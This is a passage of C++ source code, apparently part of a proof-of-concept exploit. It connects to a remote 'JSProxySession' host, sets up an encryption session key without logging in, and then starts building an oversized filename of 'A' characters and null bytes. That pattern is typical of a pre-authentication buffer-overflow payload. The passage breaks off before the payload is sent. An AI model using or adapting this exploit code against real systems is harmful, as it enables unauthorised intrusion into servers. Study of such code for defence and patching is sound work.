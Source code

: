 ```c++
            return false;
        }

        if (argv_map.count("username") && argv_map.count("ip") &
            argv_map.count("port"))
        {
            p_username.assign(argv_map["username"].as<std::string>());
            p_ip.assign(argv_map["ip"].as<std::string>());
            p_port.assign(argv_map["port"].as<std::string>());

            if (argv_map.count("password"))
            {
                p_password.assign(argv_map["password"].as<std::string>());
            }
            else
            {
                p_password.assign("");
            }
            return true;
        }
        else
        {
            std::cerr << description << std::endl;
        }

        return false;
    }
}

int main(int p_argc, const char** p_argv)
{
    std::string username;
    std::string password;
    std::string ip;
    std::string port;
    if (!parseCommandLine(p_argc, p_argv, username, password, ip, port))
    {
        return EXIT_FAILURE;
    }

    JSProxySession jsSession(ip, port);
    if (!jsSession.connect())
    {
        std::cerr << "Failed to connect to the remote host" << std::endl;
        return EXIT_FAILURE;
    }

    // generate the session key but don't log in
    if (!jsSession.negotiateEncryption(username, password, false))
    {
        std::cerr << "Encryption negotiation failed." << std::endl;
        return EXIT_FAILURE;
    }

    std::string filename;
    for (int i = 0; i < 0x50; i++)
    {
      filename.push_back('A');
    }

    for (int i = 0; i < 0x100; i++)
    {
      filename.push_back('\x00');
```